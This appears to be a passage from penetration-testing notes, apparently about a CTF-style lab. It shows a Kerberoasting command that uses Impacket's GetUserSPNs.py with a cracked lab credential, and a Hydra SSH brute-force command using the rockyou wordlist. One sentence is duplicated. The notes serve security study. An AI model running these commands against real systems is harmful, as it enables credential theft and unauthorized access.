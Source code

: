 **Keberosting using cracked credentials**

```
<root@kali:python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip 10.10.171.0 'vulnnet-rst.local/t-skid:tj072889*' -outputfile kerberoasting_hashes.txt>
```

#### SSH

Secure Shell (SSH) is used for secure command-line access to systems, typically via TCP port 22, and is found on devices and systems of all types. Secure Shell (SSH) is used for secure command-line access to systems, typically via TCP port 22, and is found on devices and systems of all types. SSH exploitation can be achieved using one or more of the below methods:

* Exploiting the running version of the SSH server if it's vulnerable.
* Credential brute force. The below command shows an example of credential brute force of an SSH server using Hydra.

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```
